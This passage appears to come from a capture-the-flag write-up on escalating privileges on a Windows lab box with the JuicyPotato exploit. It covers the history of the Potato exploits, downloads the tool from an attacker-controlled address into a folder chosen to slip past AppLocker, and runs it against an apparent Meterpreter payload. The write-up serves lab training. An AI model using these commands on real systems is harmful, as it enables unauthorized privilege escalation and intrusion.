 This is typical for an account running a service like IIS or MSSQL. But there’s a series of exploits, the Potato family, that exploit this.

#### Background

When this box was created, what was state of the art for Potato exploits was RottenPotato. One of the authors of this box is [Decoder](https://twitter.com/decoder_it?lang=en), the author of several of the Potato exploits, and an expert in this technology. [This blog post](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#rottenPotato) has a nice background of Potato exploits and their evolution.

When he created the box, he disabled the Background Intelligent Transfer Service (BITS), which is the COM server that RottenPotato uses to elevate. It turns out there are other DCOM services that can be exploited in the same manner, and that led to Decoder and Ohpe’s developing [JuicyPotato](https://decoder.cloud/2018/08/10/juicy-potato/). And that’s the exploit that will work here.

#### CLSID Issues

I’ll download `JuicyPotato.exe` from the GitHub [release page](https://github.com/ohpe/juicy-potato/releases/tag/v0.1), and upload it to Fighter, saving it in the `color` directory to avoid AppLocker:

```

PS C:\windows\system32\spool\drivers\color> wget 10.10.14.6/JuicyPotato.exe -outfile jp.exe

```

Running it shows how to call it:

```

PS C:\windows\system32\spool\drivers\color> .\jp.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port

Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user

```

I can try with just the mandatory args:

```

PS C:\windows\system32\spool\drivers\color> .\jp.exe -t * -p C:\windows\system32\spool\drivers\color\met.exe -l 9001
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9001
COM -> recv failed with error: 10038

```
